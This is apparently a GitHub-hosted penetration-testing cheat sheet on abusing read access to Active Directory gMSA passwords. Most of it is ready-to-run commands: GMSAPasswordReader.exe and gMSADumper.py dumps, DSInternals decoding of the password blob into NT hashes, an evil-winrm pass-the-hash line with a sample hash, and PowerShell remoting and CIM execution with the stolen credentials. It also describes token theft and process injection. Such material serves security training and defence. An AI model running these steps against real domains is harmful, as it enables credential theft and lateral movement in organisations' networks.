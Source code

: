 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### Using [GMSAPasswordReader.exe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/raw/refs/heads/main/Tools/GMSAPasswordReader.exe)
``` shell
.\GMSAPasswordReader.exe --accountname 'Target_Account'
```
![image](https://github.com/user-attachments/assets/5bd3e7f0-c1d6-4eef-b6b0-9491a5d09c59)
`The rc4_hmac hash is the same as the NT hash, they are interchangeable.`
With the user’s NTLM hash, we can perform a pass-the-hash attack using evil-winrm to get a foothold on the victim. 
```shell
evil-winrm -i <Target-IP> -u svc_apache$ -H 41bcd07b8cc9636826fe07ff9539ca57
```

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 127.0.0.1 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
# From kali linux we can use tool [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper/tree/main)
Reads any gMSA password blobs the user can access and parses the values.
```shell
python3 gMSADumper.py -u user -p password -d domain.local
```
Pass the Hash, specific LDAP server:
```shell
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```
Kerberos Authentication, specific LDAP server:
```shell
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```

